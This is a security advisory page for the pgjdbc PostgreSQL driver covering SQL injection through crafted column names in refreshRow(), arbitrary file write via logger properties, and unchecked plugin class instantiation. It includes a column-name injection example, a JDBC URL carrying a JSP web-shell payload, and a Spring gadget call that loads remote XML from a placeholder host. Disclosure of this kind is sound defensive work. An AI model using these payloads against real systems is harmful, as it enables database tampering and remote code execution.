 ```yaml
---
title: "Security Advisories"
date: 2022-06-19T22:46:55+05:30
draft: false
---
```


### SQL Injection in ResultSet.refreshRow() with malicious column names

#### Impact

*What kind of vulnerability is it? Who is impacted?*

The PGJDBC implementation of the `java.sql.ResultRow.refreshRow()` method is not performing escaping of column names so a malicious column name that contains a statement terminator, e.g. ; , could lead to SQL injection. This could lead to executing additional SQL commands as the application's JDBC user.

User applications that do not invoke the `ResultSet.refreshRow()` method are not impacted.

User application that do invoke that method are impacted if the underlying database that they are querying via their JDBC application may be under the control of an attacker. The attack requires the attacker to trick the user into executing SQL against a table name who's column names would contain the malicious SQL and subsequently invoke the `refreshRow()` method on the ResultSet.

For example:

```sql
CREATE TABLE refresh_row_example (
  id     int PRIMARY KEY,
  "1 FROM refresh_row_example; SELECT pg_sleep(10); SELECT * " int
);
```

This example has a table with two columns. The name of the second column is crafted to contain a statement terminator followed by additional SQL. Invoking the `ResultSet.refreshRow()` on a ResultSet that queried this table, e.g. `SELECT * FROM refresh_row` , would cause the additional SQL commands such as the `SELECT pg_sleep(10)` invocation to be executed.

As the multi statement command would contain multiple results, it would not be possible for the attacker to get data directly out of this approach as the `ResultSet.refreshRow()` method would throw an exception. However, the attacker could execute any arbitrary SQL including inserting the data into another table that could then be read or any other DML / DDL statement.

Note that the application's JDBC user and the schema owner need not be the same. A JDBC application that executes as a privileged user querying database schemas owned by potentially malicious less-privileged users would be vulnerable. In that situation it may be possible for the malicious user to craft a schema that causes the application to execute commands as the privileged user.

#### Patches

*Has the problem been patched? What versions should users upgrade to?*

Yes, versions 42.2.26 and 42.4.1 have been released with a fix.

The 42.2.26 release was provided to support older clients that are still running JDK 6 or JDK 7 that cannot upgrade to the 42.4.x release line (which requires JDK 8+).

We are not releasing a version for the 43.3.x release line and users are advised to upgrade to the 42.4.1 release to get the fix.

#### Workarounds

*Is there a way for users to fix or remediate the vulnerability without upgrading?*

Check that you are not using the `ResultSet.refreshRow()` method.

If you are, ensure that the code that executes that method does not connect to a database that is controlled by an unauthenticated or malicious user. If your application only connects to its own database with a fixed schema with no DDL permissions, then you will not be affected by this vulnerability as it requires a maliciously crafted schema.

### Arbitrary File Write Vulnerability

#### Overview

The connection properties for configuring a pgjdbc connection are not meant to be exposed to an unauthenticated attacker. While allowing an attacker to specify arbitrary connection properties could lead to a compromise of a system, that's a defect of an application that allows unauthenticated attackers that level of control.

It's not the job of the pgjdbc driver to decide whether a given log file location is acceptable. End user applications that use the pgjdbc driver must ensure that filenames are valid and restrict unauthenticated attackers from being able to supply arbitrary values. That's not specific to the pgjdbc driver either, it would be true for any library that can write to the application's local file system.

While we do not consider this a security issue with the driver, we have decided to remove the loggerFile and loggerLevel connection properties in the next release of the driver. Removal of those properties does not make exposing the JDBC URL or connection properties to an attacker safe and we continue to suggest that applications do not allow untrusted users to specify arbitrary connection properties. We are removing them to prevent misuse and their functionality can be delegated to java.util.logging.

If you identify an application that allows remote users to specify a complete JDBC URL or properties without validating it's contents, we encourage you to notify the application owner as that may be a security defect in that specific application.

#### Impact

It is possible to specify an arbitrary filename in the loggerFileName connection parameter
 `"jdbc:postgresql://localhost:5432/test?user=test&password=test&loggerLevel=DEBUG&loggerFile=./blah.jsp&<%Runtime.getRuntime().exec(request.getParameter("i"));%>"`

This creates a valid JSP file which could lead to a Remote Code Execution

#### Patches

Problem has not been patched

#### Workarounds

sanitize the inputs to the driver

Reported by Allan Lou v3ged0ge@gmail.com

### Unchecked Class Instantiation when providing Plugin Classes

#### Impact

pgjdbc instantiates plugin instances based on class names provided via `authenticationPluginClassName`, `sslhostnameverifier`, `socketFactory`, `sslfactory`, `sslpasswordcallback` connection properties.

However, the driver did not verify if the class implements the expected interface before instantiating the class.

Here's an example attack using an out-of-the-box class from Spring Framework:

```java
DriverManager.getConnection("jdbc:postgresql://node1/test?socketFactory=org.springframework.context.support. ClassPathXmlApplicationContext&socketFactoryArg=http://target/exp.xml");
```

The first impacted version is REL9.4.1208 (it introduced `socketFactory` connection property)
